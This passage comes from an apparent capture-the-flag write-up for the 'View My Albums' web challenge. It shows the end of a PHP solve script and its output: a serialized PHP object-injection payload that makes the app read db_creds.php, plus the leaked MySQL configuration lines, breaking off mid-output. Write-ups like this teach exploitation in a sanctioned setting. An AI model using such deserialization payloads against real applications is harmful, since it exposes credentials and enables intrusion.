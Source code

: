 ```php

echo "[+] Sending the serialized leak MySQL configuration object\n";
sendRequest($serializedLeakMySQLConfiguration)
?>
```

**Output:**
```shell
┌[siunam♥earth]-(~/ctf/Grey-Cat-The-Flag-2023-Qualifiers/Web/View-My-Albums)-[2023.05.22|00:03:54(HKT)]
└> php solve.php
[+] Serialized leak MySQL configuration object in URL encoding: O%3A6%3A%22Albums%22%3A1%3A%7Bs%3A13%3A%22%00Albums%00store%22%3BO%3A14%3A%22CsvRecordStore%22%3A1%3A%7Bs%3A20%3A%22%00CsvRecordStore%00file%22%3Bs%3A12%3A%22db_creds.php%22%3B%7D%7D
[+] Sending the serialized leak MySQL configuration object
[+] Response: 
Unrecognized data: object(Albums)#1 (6) {
  [0]=>
  object(Record)#3 (1) {
    ["data":"Record":private]=>
    array(2) {
      ["id"]=>
      int(0)
      [0]=>
      string(5) "<?php"
    }
  }
  [1]=>
  object(Record)#4 (1) {
    ["data":"Record":private]=>
    array(2) {
      ["id"]=>
      int(1)
      [0]=>
      NULL
    }
  }
  [2]=>
  object(Record)#5 (1) {
    ["data":"Record":private]=>
    array(2) {
      ["id"]=>
      int(2)
      [0]=>
      string(22) "$mysql_host = 'mysql';"
    }
  }
  [3]=>
  object(Record)#6 (1) {
    ["data":"Record":private]=>
    array(2) {
      ["id"]=>
      int(3)
      [0]=>
      string(30) "$mysql_database = 'challenge';"
    }
  }
  [4]=>
  object(Record)#7 (1) {
    ["data":"Record":private]=>
    array(2) {
      ["id"]=>
      int(4)
      [0]=>
```